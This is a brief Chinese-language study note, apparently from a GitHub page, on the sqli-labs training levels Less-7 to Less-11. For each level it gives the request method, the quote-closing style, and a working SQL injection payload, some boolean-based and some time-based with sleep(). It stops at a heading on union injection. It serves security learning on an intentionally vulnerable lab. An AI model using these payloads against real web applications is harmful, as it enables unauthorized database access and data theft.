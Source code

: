 ## less-7

    请求方式 get
    
    闭合方式 '))
    
    攻击测试  ?id=1')) and%20If(ascii(substr(database(),2,1))=101,1,sleep(5))--+
    
    注入方式 布尔，延时
    
        

## Less-8

    请求方式 get
    
    闭合方式 '
    
    攻击测试  ?id=1' and 1=2--+
    
    注入方式 布尔，延时
    
        

## Less-9

    请求方式 get
    
    闭合方式 '
    
    攻击测试  ?id=1' and sleep(4)--+
    
    注入方式 延时
    
        

## Less-10

    请求方式 get
    
    闭合方式 "
    
    攻击测试  ?id=1" and sleep(4)--+
    
    注入方式 延时
    
        

## less-11(post)

请求方式 post

闭合方式 ’

注入方式

POST 数据里面不能有 +，故’–+‘改为’-- '或者使用#注释符

首先使用 admin’ order by 2#猜解除字段数为2

### 联合注入：
